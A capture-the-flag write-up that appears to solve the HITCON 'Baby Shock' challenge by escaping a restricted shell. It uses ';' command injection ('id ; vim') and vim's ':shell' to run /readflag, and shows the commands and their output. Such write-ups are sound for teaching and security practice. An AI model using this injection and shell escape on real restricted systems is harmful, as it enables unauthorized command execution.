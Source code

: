 # Baby Shock
_Category: misc_

## Description
> `nc 54.248.135.16 1986`

## Short Solution
```sh
id ;vim
exit
:shell
/readflag
```

## Solution

When we connect to the server, we are running in a restricted shell, with very few commands available to us:
```sh
connected!
welcome to Baby shock, doo, doo, doo, doo, doo, doo!!!
> help
> Available Commands: 
pwd ls mkdir netstat sort printf exit help id mount df du find history touch
>  vim
> bad command: vim
```

We can tell that some characters have been blacklisted by using them with a comment, e.g.:
```sh
> id # foo
> uid=1128 gid=2020
id # -
> bad command: id # -
```

From this we can determine that attacking the programs we are allowed to access directly is not likely to be fruitful, as all of those programs listed will require at least a <kbd>-</kbd> character to be exploited.

Instead, attempting to attack the shell itself, it doesn't take long to see that a <kbd>;</kbd> is allowed:
```sh
> id # ;
> uid=1128 gid=2020
```

This allows us to run commands outside of the restricted shell:
```sh
> id ; hostname
> uid=1128 gid=2020
ip-172-31-11-96
```

Now we just need to find a program that will let us execute commands. This is slightly complicated due to the way input handling is within the restricted shell. As a result, attempting to run bash directly does not produce the desired results:
```sh
> id ; bash
> uid=1128 gid=2020
whoami
> bad command: whoami
```

Instead of attempting to understand these issues, we simply used `vim` to launch a fully interactive shell. It still required a little coaxing, but by typing the solution from the beginning of the writeup in the correct order, we get a fully interactive shell:
```sh
> id ; vim
> uid=1128 gid=2020 groups=2020
Vim: Warning: Output is not to a terminal
Vim: Warning: Input is not from a terminal
exit
:shell
/readflag
hitcon{i_Am_s0_m155_s3e11sh0ck}
```

